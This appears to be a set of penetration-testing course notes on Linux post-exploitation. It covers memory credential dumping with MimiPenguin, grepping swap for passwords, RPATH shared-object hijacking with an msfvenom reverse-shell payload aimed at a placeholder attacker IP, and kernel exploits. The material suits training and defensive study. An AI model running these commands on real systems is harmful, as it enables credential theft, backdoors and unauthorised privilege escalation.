 Note that we want to crack the hashes offline for many reasons.

(097/162) *MimiPenguin* is a tool to try to extract the passwords directly from the machines memory.
It works similarly to *mimikatz* for Windows, and attempts to dump cleartext credentials from applications like: GDM, Gnome keyring, OpenSSH, Apache2, VSFTPd.
There are two different scripts available, a shell script and a python script, both with their pros and cons.

(101/162) *Pilfering credentials from swap memory*.
We can also dump sensitive information from the swap file.
The partition or file defined as the swap file can be found with: `swapon -s` or `cat /proc/swaps`.
Then we can try to extract the strings we are looking for with: `strings <SwapPartition> | grep "password"`.

There is a tool named [*swap_digger*](https://github.com/sevagas/swap_digger) to automate the process.

(105/162) *Code execution via shared object library loading*.
Similar to Microsoft Windows Dynamic-Link Library (DLL), Shared Object libraries are essentially their equivalent on Linux systems, providing applications with functions that are called from outside of an application by referencing `.so` files at an application runtime. These files can either be linked to the application at runtime or loaded/unloaded and
linked during the application execution.

When a Linux application is executed, one of the first things that happens under-the-hood, if it
uses Shared Objects, is that it will search for those Shared Objects in the following search order:
1. Any directories specified by `-rpath-link` options (`RPATH`).
2. Any directories specified by `-rpath` options (`RPATH`).
3. If the `-rpath` and `-rpath-link` options are not used, it will then search the contents of the environment variables `LD_RUN_PATH` and `LD_LIBRARY_PATH`.
4. Directories defined in the `DT_RUNPATH` environment variable first, if that doesn't exist, then the `DT_RPATH`.
5. Then, the default lib directories, normally `/lib` and `/usr/lib`.
6. Finally, any directories defined in the `/etc/ld.so.conf` file.

To determine that the shared objects are being loaded by an executable: `ldd /path/to/program`.
To determine if the application was compiled with `RPATH` or `RUNPATH` options: `objdump -x /path/to/program | grep "RPATH"`, `objdump -x /path/to/program | grep "RUNPATH"`.

We can drop a malicious (`.so` file) payload in the directories defined by either of those options.

Generate a backdoored Shared Object.
`msfvenom -p linux/x64/shell_reverse_tcp -a x64 --platform linux LHOST=<AttackerIP> LPORT=<AttackerPort> -f elf-so -o /root/Desktop/reverse_tcp64.so`.
Then we need just to transfer the malicious `.so` file to the target machine, and rename it with the loaded shared object name, and place it in the directory pointed by `RPATH` or `RUNPATH`.

An important point to note is that in order to us to elevate our privileges, it is required that the shared object is executed by a user with higher privileges, or scheduled as part of a cron job that runs as root, for example.

(123/162) *Kernel exploits*.
These are the most prolific methods for elevating privileges on Linux machines with outdated kernels.
There are many different categories for kernel exploits:
- Buffer overflows.
- Memory corruption.
- Denial-Of-Service.
- Race conditions.
They most of the time allow for arbitrary code execution.
For our purposes, Linux kernel exploits usually are pre-compiled ELF files, C source code, or available via exploit frameworks such as Metasploit.
Please, always take precaution when compiling and executing exploit code. Try to understand what the code does behind-the-scenes.
